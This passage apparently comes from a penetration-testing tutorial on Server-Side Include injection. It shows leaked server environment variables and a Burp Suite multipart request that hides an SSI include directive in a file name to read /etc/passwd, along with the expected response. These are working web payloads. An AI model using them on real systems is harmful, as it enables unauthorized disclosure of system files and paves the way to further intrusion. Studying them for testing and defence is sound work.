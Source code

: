 ```html
    DOCUMENT_ROOT=/var/www/html
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    USER=www-data
    ...
  </pre>
</body>
</html>
```

As shown, the attacker can potentially view **environment variables** by injecting the `<!--#printenv-->` directive. This could give valuable information like server paths, usernames, or other internal configuration details that could aid in further attacks, such as **LFI** or **RCE**.

***

### **Advanced Exploits Using Burp Suite**

#### **3. Injecting Local File Inclusion (LFI) Payload**

The **include** directive can be exploited for **local file inclusion (LFI)**, allowing attackers to read sensitive files such as `/etc/passwd`, which contains user details, or `/var/log/apache2/access.log`, which might reveal server activity.

**Burp Suite Example for LFI Payload:**

Imagine the vulnerable application uses the `image_filename` parameter to load a user’s profile picture, but it’s also dynamically incorporated into an SSI template.

**Burp Suite Request with LFI Injection:**

```markup
POST /profile-image HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5lLiyqMk7wej39ti
Content-Length: 1234

------WebKitFormBoundary5lLiyqMk7wej39ti
Content-Disposition: form-data; name="image_filename"; filename="profile.jpg<!--#include file='/etc/passwd'-->"
Content-Type: image/jpeg

<binary data here>
------WebKitFormBoundary5lLiyqMk7wej39ti--
```

By injecting the payload `<!--#include file='/etc/passwd'-->` into the filename, the attacker could make the server include the contents of `/etc/passwd` when processing the request.

**Expected Response:**

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 567

<html>
<head><title>Profile - User</title></head>
<body>
  <h1>User Profile</h1>
  <div class="profile-image">
    <img src="/uploads/profile.jpg" alt="Profile Image">
  </div>
  <pre>
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/bin/bash
    ...
  </pre>
```
